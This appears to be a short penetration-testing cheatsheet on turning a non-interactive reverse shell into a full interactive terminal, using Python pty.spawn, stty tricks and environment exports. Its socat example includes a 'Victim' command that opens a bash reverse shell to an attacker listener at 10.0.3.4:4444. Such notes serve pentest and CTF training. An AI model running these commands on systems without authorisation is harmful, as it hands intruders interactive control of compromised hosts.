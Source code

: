 `not a tty` means it's not interactive.


In terminal :
python3 -c 'import pty; pty.spawn("/bin/bash")'
or :
python -c 'import pty; pty.spawn("/bin/bash")'

check :
```bash
$ tty
tty
/dev/pts/0
```

better environment :

export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games:/tmp
export TERM=xterm-256color
alias ll='ls -lsaht --color=auto'

can try with : 
```bash
$ ll
```

==> colors must appears

Then :

Ctrl + Z [Background Process]
stty raw -echo ; fg ; reset
stty columns 200 rows 200



### tl;dr cheatsheet
Cheatsheet commands:

Using Python for a psuedo terminal

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Using socat

```bash
#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

Using stty options

 ```bash
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```